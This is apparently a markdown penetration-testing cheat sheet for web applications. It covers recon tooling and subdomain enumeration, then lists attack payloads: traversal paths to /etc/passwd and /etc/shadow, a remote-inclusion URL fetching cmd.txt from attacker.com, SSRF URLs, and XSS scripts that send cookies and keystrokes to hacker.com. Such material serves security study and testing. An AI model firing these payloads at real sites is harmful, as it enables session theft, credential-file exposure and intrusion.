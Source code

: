# High Level Web Hacking Playbook

## OSINT/Research/Recon

1. ***Walking an application***
   * View Source - Use your browser to view the human-readable source code of a website.
   * Inspector - Inspect page elements and make changes to view usually blocked content.
   * Debugger - Inspect and control the flow of a page's JavaScript
   * Network - See all the network requests a page makes using the developer tools.
2. ***Content discovery***
   * Manual Discovery:
      * **robots.txt**
         * Look for points of interest
      * **favicon.ico**
         * Sometimes when frameworks are used to build a website, a favicon that is part of the installation gets leftover. You can then use [OWASP Favicon Database](https://wiki.owasp.org/index.php/OWASP_favicon_database) to find clues on which frameworks are in use.
      * **Sitemap.xml**
         * Look for points of interest
      * **HTTP Headers**
         * Look at the return headers from requests to the site such as the webserver software and possibly the programming/scripting language in use.
      * **Framework Recon**
         * Search for default things based on the framework in use for the following:
            - [ ] admin panels
            - [ ] credentials
            - [ ] server pages
      * **OSINT**
         * *Google Dorking*
            * Search google for the following:
               - [ ] ```site:<somewebsite.com>```
               - [ ] ```inurl:admin```
               - [ ] ```filetype:pdf```
               - [ ] ```intitle:admin```
               - More can be found at: [Google Hacking](https://en.wikipedia.org/wiki/Google_hacking)
         * [*Wappalyzer*](https://www.wappalyzer.com/)
            * Identify what technologies the website uses, such as frameworks, Content Management Systems (CMS), payment processors, version number, etc.
         * [*Wayback Machine*](https://archive.org/web/)
            * Great for research into old pages that may still be active.
         * Github
            * Locate repositories owned by target. Look for passwords, configs, and framework clues.
         * S3 Buckets
            *  The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com 
            * Search common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.
   * Automated Discovery
      * Using wordlists like those from [SecLists](https://github.com/danielmiessler/SecLists) use tools to search for pages, frameworks, etc.
      * **ffuf**: ```ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ```
      * **dirb**: ```dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt```
      * **gobuster**: ```gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt```
3. Subdomain Enumeration
   * SSL/TLS Certificates
      * Get certificate information via [*crt.sh*](https://crt.sh/) or [*ctsearch*](https://ui.ctsearch.entrust.com/ui/ctsearchui)
   * Search Engines
      * Google Dork the following:
         * ```-site:www.domain.com site:*.domain.com```
   * DNS Bruteforce
      * Use [*DNSRecon*](https://www.kali.org/tools/dnsrecon/) to search for DNS information: ```dnsrecon -d example.com -D /usr/share/wordlists/dnsmap.txt -t std --xml dnsrecon.xml```
   * Sublist3r
      * Enumerate domains with [*Sublist3r*](https://github.com/aboul3la/Sublist3r): ```python sublist3r.py -d example.com```
   * Non public DNS search
      * **ffuff**: ```ffuf -w ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.com" -u http://MACHINE_IP -H "Host: FUZZ.acmeitsupport.com" -u http://MACHINE_IP -fs {size}```
         * Use fs to filter out packets via size to refine results

## Active Hacking

### IDOR - Insecure Direct Object Reference / Enumeration
Investigate IDOR objects and reference numbers

   * **Quick Reference IDOR/Enumeration Ideas**
      * Try negative numbers and symbols such as : ```-1``` or ```*```
      
* **IDOR Automation**
   * [**IDOR Hunter**](https://github.com/SKHTW/IDOR_Scanner)

### File Inclusion
Search for LFI (Local File Inclusion), RFI (Remote File inclusion), and directory traversal

* **LFI**
   * LFI can potentially be explouted when endpoints like ```http://webapp.com/index.php?lang=EN``` exist. 
   * **Notes**:
      * Using null bytes is an injection technique where URL-encoded representation such as ```%00``` or ```0x00``` in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.
   
   * Investigate paths like:
      * ```/page1.php?file=/etc/passwd```
      * ```/lab3.php?file=../../../../etc/passwd%00```
* **RFI**
   * ```http://webapp.com/index.php?lang=http://attacker.com/cmd.txt```

* **Directory Traversal**
   * ```http://webapp.com/get.php?file=../../../../etc/passwd```
   * ```http://webapp.com/get.php?file=../../../../etc/shadow```

   * ```http://webapp.com/get.php?file=../../../../boot.ini```
   * ```http://webapp.com/get.php?file=../../../../windows/win.ini```

## SSRF - Server-Side Request Forgery
There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

* **Directory Traversal**
   * ```http://webapp.com/stock?url=/../user```
   * ```http://webapp.com/stock?server=api.webapp.com/api/user/&x=&id=123```
      * **Note** the payload ending in ```&x=``` being used to stop the remaining path from being appended to the end  of the attackers url, and instead turns it into a parameter.
   * ```http://webapp.com/stock?url=http://hacker-domain.com/```

## XSS - Cross-Site Scripting
* PoC
   * ```<script>alert('XSS');</script>```
* Session Stealing
   * ```<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>```
* Key Logger
   * ```<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>```
* Business Logic / Function Call
   * ```<script>user.changeEmail('attacker@hacker.com');</script>```

* **Reflected XSS**
   * You'll need to test every possible point of entry; these include:

      * Parameters in the URL Query String
      * URL File Path
      * Sometimes HTTP Headers (although unlikely exploitable in practice)
* **Stored XSS**
   * The XSS must be stored in something like the websites DB
   * You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:
      * Comments on a blog
      * User profile information
      * Website Listings